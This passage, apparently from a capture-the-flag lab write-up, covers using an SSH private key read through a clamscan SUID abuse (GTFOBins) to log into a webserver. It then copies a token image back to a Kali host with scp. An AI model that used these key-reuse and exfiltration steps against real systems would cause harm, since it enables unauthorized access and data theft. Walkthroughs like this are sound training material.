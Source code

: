 With the content displayed in the terminal, we can copy the output and paste into a file on our Kali host. Since we still have the ``id_rsa`` file from the ``proxy``, we will name this file ``id_rsa_2`` (the name does not impact functionality)

![Screenshot showing the output of the GTFOBins command used to exploit the clamscan SUID binary](./img/gtfobins_cmd.PNG "GTFOBins command output exploiting clamscan SUID binary")

We can apply appropriate permissions with ``chmod 600 id_rsa_2`` and use the file to ``ssh`` to the ``webserver``

```bash
ssh -i id_rsa_2 user@10.1.1.51
```

![Screenshot showing SSH login to the webserver using the id_rsa_2 file](./img/ssh_with_idrsa_proxy.PNG "SSH login to the webserver using the id_rsa_2 file")

As ``user`` on the ``webserver``, we can ``scp`` the file, ``forever-winter.png`` back to our Kali host.

```bash
scp /home/user/forever_winter.png user@<kali-ip>:/home/user/ 
```

Finally, we can open the transferred image in our GUI to read the token. 
